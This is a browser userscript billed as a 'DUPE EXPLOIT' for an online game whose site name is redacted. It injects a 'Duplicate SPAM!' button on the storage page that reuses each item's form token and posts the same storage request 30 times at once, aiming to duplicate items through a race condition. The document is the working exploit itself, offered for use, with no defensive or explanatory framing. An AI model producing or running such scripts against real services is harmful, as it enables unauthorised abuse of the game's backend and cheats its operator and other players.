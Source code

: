 # EXAMPLE1
// ==UserScript== 
// @name C....ea-......Games - DUPE EXPLOIT - By VarNate 
// @namespace VN 
// @version 1.0 
// @description -
// @author N- 
// @match https://------------/index.php?act=storage 
// @grant none 
// ==/UserScript== 
 /*globals jQuery, $, waitForKeyElements */

(function() { 'use strict';

var htmlBtn = '<button id="btnDuplicate" style="margin-right: 10px; background: red;" class="btn-u g-recaptcha"><i class="fa fa-gift"></i> Duplicate SPAM!</button>'

var iBtn = $('button i.fa-gift');
var btn = $('button i.fa-gift').parent();
var rect = btn.parent();
var tb = rect.parent().parent();
var inputsItemId = $('[name=item_id]', tb);
var inputsId = $('[name=id]', tb);
var inputsToken = $('[name=_token]', tb);
var inputsQuantity = $('[name=quantity]', tb);

rect.each(function(i,e) {

    console.log(i);
    console.log(e);
    var newBtn =  $(htmlBtn);
    $(e).append(newBtn);

    var selItemId = inputsItemId.eq(i);
    var selId = inputsId.eq(i);
    var selToken = inputsToken.eq(i);
    var selQuantity = inputsQuantity.eq(i);

    newBtn.click(function(e,o) {
        var itemId = selItemId.val();
        var id = selId.val();
        var token = selToken.val();
        var quantity = selQuantity.val();

        var charId = $('#character_sel').val();
        if (charId == null || charId === undefined || charId === '')
        {
            alert("select a character STUPID!!! noob")
        }
        else
        {
            var url = 'https://--------------/index.php?act=storage';
            var data = { "item_id": itemId, "id": id, "char_id": charId, "_token": token, "quantity": quantity };

            for (i = 0; i < 30; i++)
            {
                $.post(url, data);
            }
            alert("After 10 sec Refresh the page")
        }


    });

});

// Your code here...
})();

